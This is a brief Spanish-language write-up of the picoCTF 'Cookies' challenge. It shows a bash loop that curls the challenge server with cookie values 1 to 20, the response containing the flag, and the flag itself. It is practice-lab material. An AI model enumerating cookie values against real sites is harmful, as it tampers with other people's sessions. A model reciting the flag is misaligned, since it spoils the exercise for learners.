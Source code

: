 # Descripcion
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)

# Pistas

# Solucion
```
──(kali㉿kali)-[~]
└─$ for i in {1..20}; do curl -s http://mercury.picoctf.net:17781/check -H "Cookie: name=$i"; done | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>

```

# Bandera
picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

# Notas adicionales


# Referencias